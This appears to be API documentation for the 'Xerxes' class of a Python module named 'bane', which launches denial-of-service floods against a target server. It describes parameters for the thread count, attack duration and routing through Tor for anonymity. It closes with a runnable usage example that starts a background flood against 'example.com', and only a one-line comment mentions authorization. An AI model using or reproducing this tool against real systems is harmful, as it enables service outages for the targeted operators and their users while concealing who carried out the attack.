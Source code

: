 <h2>Class Overview</h2>
<p>The <code>Xerxes</code> class is part of the "bane" module and is used to perform a DDoS attack using the Xerxes tool. This attack sends NULL characters to a target server to flood it with traffic. The tool is named after the ancient Persian king Xerxes I, known for his invasion of Greece.</p>

<h2>Class Constructor</h2>
<pre><code>class Xerxes(DDoS_Class)
</code></pre>
<p>This constructor initializes an instance of the <code>Xerxes</code> class with the following parameters:</p>

<ul>
    <li><code>u</code> (str): The target URL or IP address for the DDoS attack.</li>
    <li><code>p</code> (int): Port number of the target server (default is 80).</li>
    <li><code>threads_daemon</code> (bool): Set threads as daemons (default is True).</li>
    <li><code>threads</code> (int): Number of threads for the attack (default is 500).</li>
    <li><code>timeout</code> (int): Timeout for socket connections (default is 5 seconds).</li>
    <li><code>duration</code> (int): Duration of the attack in seconds (default is 60 seconds).</li>
    <li><code>logs</code> (bool): Enable or disable logging (default is False).</li>
    <li><code>tor</code> (bool): Use the Tor network for anonymity (default is False).</li>
    <li><code>ssl_on</code> (bool): Enable SSL/TLS for the connection (default is False).</li>
</ul>

<h2>Methods</h2>
<h3><code>attack(self)</code></h3>
<p>This method initiates the Xerxes DDoS attack by sending NULL characters to the target server. The attack is performed in a separate thread. It can maintain a connection with the target server, and the attack duration can be controlled using the <code>duration</code> parameter.</p>

<h2>Example Usage</h2>
<p>To use the <code>Xerxes</code> class, create an instance of it by providing the required parameters, and it will start performing a DDoS attack on the target URL or IP address in the background. Here's an example:</p>

<pre><code>
from bane.ddos import Xerxes

#Create an instance of Xerxes
xerxes_attack = Xerxes(
    u="example.com",
    p=80,  #Default HTTP port
    threads_daemon=True,
    threads=500,
    timeout=5,
    duration=60,
    logs=False,
    tor=False,
    ssl_on=False
)

#DDoS attack is performed in the background
#Monitor the attack's progress as needed

#To stop the attack, you can set xerxes_attack.stop = True

#Be cautious and responsible when using such attack techniques in a real environment, and ensure you have proper authorization.
</code></pre>
